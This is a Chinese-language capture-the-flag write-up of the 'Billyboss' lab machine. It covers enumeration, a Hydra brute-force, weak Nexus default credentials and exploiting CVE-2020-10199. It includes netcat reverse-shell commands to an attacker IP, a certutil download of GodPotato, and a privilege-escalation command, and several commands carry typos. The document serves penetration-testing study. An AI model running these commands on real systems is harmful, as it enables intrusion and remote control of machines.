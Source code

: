 ```yaml
---
description: Windows / 中等难度 / Nexus Repository Manager OSS 3.21.0-05
---
```


# ✔️ Billyboss

## 建立立足点

### 信息枚举

* 使用Nmap针对目标系统的开放端口进行扫描：

```bash
nmap -sC -sV -p- -oA billyboss 192.168.250.61
```

<figure><img src="../.gitbook/assets/Snipaste_2024-06-22_14-02-58.png" alt=""><figcaption></figcaption></figure>

* 同时也可直接尝试看看目标系统是否有web页面，本例的80端口正运行着一个叫BaGet的应用程序，可做一些常规的信息收集：

<figure><img src="../.gitbook/assets/Snipaste_2024-06-22_14-01-00.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/Snipaste_2024-06-22_14-01-28.png" alt=""><figcaption></figcaption></figure>

* 通过Nmap的扫描结果，发现目标还有一个8081的开放端口，也正在运行着HTTP服务，依次查看相关网页内容，确定当前正运行的是Nexus Repository Manager OSS 3.21.0-05的应用程序：

<figure><img src="../.gitbook/assets/4 (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/5 (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/6 (4).png" alt=""><figcaption></figcaption></figure>

* 使用dirsearch扫描一下该端口上还有没有其他的隐藏目录/文件：

<figure><img src="../.gitbook/assets/7 (5).png" alt=""><figcaption></figcaption></figure>

* 发现一个/swagger-ui，看它大小不抱什么希望，果然没什么东西：

<figure><img src="../.gitbook/assets/8 (5).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 因为此时已经获得了应用程序的版本号，查阅公开漏洞库发现了可能可以利用的漏洞脚本：

<figure><img src="../.gitbook/assets/10 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 阅读该脚本后，发现几个需要修改的地方：

<figure><img src="../.gitbook/assets/11 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 但是在之前的信息枚举的过程中完全没有发现任何可利用用户凭证信息，所以决定使用Hydra进行爆破：

1. 先用BurpSuite拦截一下POST表单查看路径和用户名、密码处的格式：

<figure><img src="../.gitbook/assets/12 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

2. 用户名密码处用Base64编码了，在构造hydra命令时应注意用:username=<mark style="color:red;">**^USER64^**</mark>spassw0rd=<mark style="color:red;">**^PASS64^**</mark>：

```bash
# 使用Hydra的爆破时间实在是太长，需要准备一些更好的username和password字典文件
hydra -L /usr/share/secLists/Usernames/Names/names.txt -P /usr/share/SecLists/Passwords/common-credentials/10k-most-common.txt
192.168.250.61 -s 8081 http-post-form '/service/rapture/session:username=^USER64^spassw0rd=^PASS64^:Forbidden‘
```

* 因考虑到Hydra爆破耗时漫长，所以与此同时决定猜测弱口令，简单猜测几次后发现了有效凭证_<mark style="color:red;">**nexus:nexus  😄**</mark>_

<figure><img src="../.gitbook/assets/13 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 此时已具备了可以修改漏洞脚本的基本项，但是还需要上传一个nc.exe程序，用于后续执行一个反弹shell回来：

<figure><img src="../.gitbook/assets/15 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 在Kali机器的对应目录下，存放一个nc64.exe脚本并开启一个简单的服务器：

<figure><img src="../.gitbook/assets/16 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* nc64.exe程序上传成功：

<figure><img src="../.gitbook/assets/17 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/18 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 此时，可再次修改脚本内容，用于执行反弹shell回连到Kali机器上：

<figure><img src="../.gitbook/assets/19 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 但是返回后的信息显示了一个错误信息，我设置的命令被嵌套在好几个函数中：

<figure><img src="../.gitbook/assets/20 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 使用反斜杠逃逸：

```bash
.\\\\nc64.exe 192.168.45.158 4444 -e cmd.exe
```

<figure><img src="../.gitbook/assets/21 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 监听端口接收到了回连的shell，此时getshell并获得了flag：

<figure><img src="../.gitbook/assets/22 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/23 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本机信息枚举

* 先手工进行简单的信息收集：

<figure><img src="../.gitbook/assets/24 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/25 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 本例中决定使用提权工具GodPotato，但是得先确定目标系统的.NET框架的版本号，得知为4.0版本：

```powershell
reg query "HKEY_L0CAL_MACHINE\S0FTWARE\Microsoft\NET Framework Setup\NDP"
```

<figure><img src="../.gitbook/assets/26 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 下载GodPotato-NET4.exe，然后将工具传到目标系统中：

<figure><img src="../.gitbook/assets/27 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```powershell
certutil -split -f -urlcache http://192.168.45.158/GodPotato-NET4.exe
```

<figure><img src="../.gitbook/assets/28 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 上传成功后，执行一下GodPotato-NET4.exe程序，看看是否可以成功执行：

<figure><img src="../.gitbook/assets/29 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 此时，将GodPotato-NET4.exe程序的\`-cmd\`参数的值修改为调用刚才上传的nc64.exe程序以执行一个反弹shell回连至Kali本机中：

```powershell
.\GodPotato-NEr4.exe -cmd "C:\Users\nathan\Nexus\nexus-3.21.0-05\nc64.exe 192.168.45.158 8888 -e cmd.exe"
```

<figure><img src="../.gitbook/assets/30 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 获得ROOT flag：

<figure><img src="../.gitbook/assets/31 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例算中等偏难的机器，锁定可利用的漏洞和提权时都不难，但是其实现过程中需要根据实际情况进行修改和变通。

CVE-2020-10199
{% endhint %}
